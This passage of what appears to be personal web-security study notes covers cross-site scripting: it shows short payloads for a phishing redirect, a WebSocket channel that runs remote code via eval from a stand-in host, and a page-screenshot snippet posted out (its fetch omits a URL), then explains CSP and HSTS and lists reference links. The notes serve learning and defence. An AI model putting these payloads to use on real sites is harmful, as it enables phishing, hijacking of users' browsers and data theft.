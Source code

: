   **Redirection**
   ```Option1
       window.location = 'https://example.com/phishing-page'
   ```
   
  **Reverse Shell**
   ```Option1
       s=new WebSocket('wss://example.com')
       s.onmessage=(e)=>eval(e.data)
   ```

  **Screenshots**
   ```
       html2canvas(document.body)
         .then((c)=>fetch(
           {
             method: 'POST',
             headers: {
               'Content-Type':'application/json'
             },
             body: JSON.stringify({
               img: c.toDataURL()
             })
           }
                    )
         )
   ```


------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
  

# 4. Headers

   ============================================================


**CSP - Content Security Policy**
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ Reduce or eliminate the vectors for XSS by _specifying the domains_ that the browser should 
  consider to be _valid sources of executable scripts_
 - Only executes scripts loaded in source files for allowed domains
  
+ `X-Content-Security-Policy` & `X-WebKit-CSP` is an older version
+ `Content-Security-Policy: <directive> <value>;<directive> <value>`

+ HTML
`<meta http-equiv="Content-Security-Policy" content="<directive> <value>; <directive> <value>"`
+ Restrict Where Scripts are Run
`Content-Security-Policy: script-src https://somedomain:8080`


   ============================================================


**HSTS - Html Strick Transport Security**
+ Ensures browser is using `HTTPS` so communication is encrypted


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic